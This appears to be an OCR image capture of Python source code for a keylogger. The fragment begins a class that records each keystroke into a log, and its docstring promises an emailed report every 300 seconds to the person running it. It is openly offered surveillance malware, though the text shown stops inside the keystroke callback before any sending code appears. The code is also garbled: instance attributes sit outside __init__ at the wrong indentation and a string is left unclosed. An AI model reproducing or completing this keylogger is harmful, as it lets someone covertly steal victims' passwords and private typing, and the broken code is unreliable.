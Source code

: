 class Keylogger:
    def __init__(self, interval, report_method='email'):

        """You will receive a report every 300 seconds, I would advise creating a separate folder
        in your inbox for these."""

        self.report_method = report_method
        self.interval = interval

    self.interval = interval
    self.report_method = self.report_method

    """This is the string variable that contains the log of every keystroke within
    'self.interval'."""

    self.log = ""

    """Recording start and end dates and times."""

    self.start_dt = datetime.now()
    self.end_dt = datetime.now()

    def callback(self, event):

        """This callback is invoked whenever a keyboard event has occurred
        (i.e., when a key is released in this example
        """

        name = event.name
        if len(name) > 1:
            # 'Is not a character, but a special key (ctrl, alt, shift, etc).'
            # 'Uppercase with [].'
            if name == "space":
                # " " is used instead of space
                name = " "
            elif name == 'enter':
                # 'Adds a new line when the Enter key is pressed.'
                name = "[ENTER\n"
            elif name == "decimal":
                name = "."
            else:
                # 'Replace spaces with underscores.'
                name = name.replace(" ", "_")
                name = f"[{name.upper()}]"

        """Finally, we will be adding the key name to our global `self.log` variable."""
